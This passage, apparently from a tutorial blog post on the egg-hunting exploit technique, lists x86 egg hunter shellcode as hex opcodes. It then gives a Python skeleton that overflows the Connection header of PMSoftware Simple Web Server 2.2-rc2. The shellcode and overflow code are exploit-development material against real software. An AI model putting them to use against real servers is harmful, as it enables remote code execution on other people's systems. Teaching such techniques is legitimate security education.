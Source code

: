 The hex equivalent of this code would look something like this:

Hex | Instruction
--- | -----------
6681CAFF0F | OR DX,0FFF
42 | INC EDX
52 | PUSH EDX
6A02 | PUSH 00000002
58 | POP EAX
CD2E | INT 2E
3C05 | CMP AL,05
5A | POP EDX
74EF | JE 00000100
B86E6F7065 | MOV EAX,65706F6E # 0x6e6f7065 = "nope"
8BFA | MOV EDI,EDX
AF | SCASD
75EA | JNE 00000105
AF | SCASD
75E7 | JNE 00000105
FFE7 | JMP EDI

If you look closely, the code seems to be using `NtAccessCheckAndAuditAlarm`, not `NtDisplayString`. Both of them function in same way, the only difference is syscall number so no need to worry about that. If you want to see the above code in action, you can go through  [Security Sift's blog](http://www.securitysift.com/windows-exploit-development-part-5-locating-shellcode-egghunting/) which does a wonderful job of stepping through each line to explain its working.

### Exploitation

We'll be exploiting **PMSoftware Simple Web Server 2.2-rc2** for demonstration. It is a simple HTTP server which had a buffer overflow vulnerability in **Connection** HTTP header. The original exploit is discussed [here](https://ghostinthelab.wordpress.com/2012/07/19/simplewebserver-2-2-rc2-remote-buffer-overflow-exploit/). We also have a [metasploit module](https://www.rapid7.com/db/modules/exploit/windows/http/sws_connection_bof) for this one:

<p align="center"><img src="/img/blog/2019/egg-hunting/1*h8hVpQzj2S30S1aqspenXw.png" /></p>

Let's write an exploit of our own using Egg hunting technique. Considering Connection header is vulnerable, the skeleton code to perform the overflow would look like:

```python
# Skeleton exploit code for Simple Web Server 2.2-rc2
# Author: Prashant Kumar (@notsoshant)

import os
import sys
import socket

ip = "127.0.0.1"

socket = socket.socket(socket.AF_INET , socket.SOCK_STREAM)

socket.connect((ip , 80))

shellcode = "A"*20000 # All shellcode goes here

buffer = "GET / HTTP/1.1\r\n"
buffer += "Host: " + ip + "\r\n"
buffer += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0\r\n"
buffer += "Connection: " + shellcode + "\r\n\r\n"

socket.send(buffer)

data = socket.recv(4096)
print data
socket.close()
```